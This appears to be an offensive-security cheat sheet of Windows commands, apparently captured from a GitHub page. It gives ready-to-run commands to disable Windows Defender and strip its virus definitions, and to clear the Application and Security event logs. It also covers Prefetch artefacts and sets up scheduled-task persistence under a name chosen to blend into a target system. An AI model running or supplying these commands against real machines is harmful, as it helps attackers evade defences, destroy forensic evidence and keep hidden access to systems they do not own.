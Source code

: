 ## DISABLE WINDOWS DEFENDER
| Description | Command |
|-------------|---------|
| Disable service | `sc config WinDefend start= disabled` |
| Stop service | `sc stop WinDefend` |
| PowerShell command to disable real time monitoring | `Set-MpPreference -DisableRealtimeMonitoring $true` |
| PowerShell command to remove virus definitions | `"%ProgramFiles%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All` |

## WINDOWS EVENT VIEWER MANIPULATION
| Description | Command |
|-------------|---------|
| Backup the Application log and then clear all events | `wevtutil cl Application /bu:<FILE_PATH>.evtx` |
| Display the 20 most recent events from the application log | `wevtutil qe Application /c:20 /rd:true /f:text` |
| Display the last 100 logon events | `wevtutil qe security /q:"*[System[(EventID=4624)]]" /c:100 /rd:true` |
| Display all logon events during the last 24 hours (PowerShell) | `$date = (Get-Date).AddHours(-24); Get-WinEvent –FilterHashtable @{ logname = "Security"; STARTTIME = $date; ID = 4624}` |
| Clear Security & Application event log (PowerShell) | `Get-EventLog –list`<br>`Clear-EventLog –LogName Application, Security` |

### Prefetch [1!]
**Prefetch Location:**
`%SYSTEMROOT%\Prefetch`
**Prefetch filename structure:**
`<APPLICATION_NAME>-<8 CHAR HASH OF LOCATION>`
**Additional meta data:**
- executable name (up to 29 chars)
- number of times the application has been executed
- volume related information
- files and directories used during application start-up

# User Level Persistence

*This section details important and useful user level persistence techniques. Since they are "user level" they do not require any administrative privileges and most of them execute on user log in.*

## SCHEDULED TASK USER PERSISTENCE

*Upload binary and add scheduled task pointing at that uploaded binary. Can change OfficeUpdater to a task name that blends into target system.*

| Description | Command |
|-------------|---------|
| Add user level task that executes at 9:00AM daily | `schtasks /Create /F /SC DAILY /ST 09:00 /TN OfficeUpdater /TR <FILE_PATH>` |
| Query task in verbose mode | `schtasks /query /tn OfficeUpdater /fo list /v` |
| Delete task | `schtasks /delete /tn OfficeUpdater /f` |

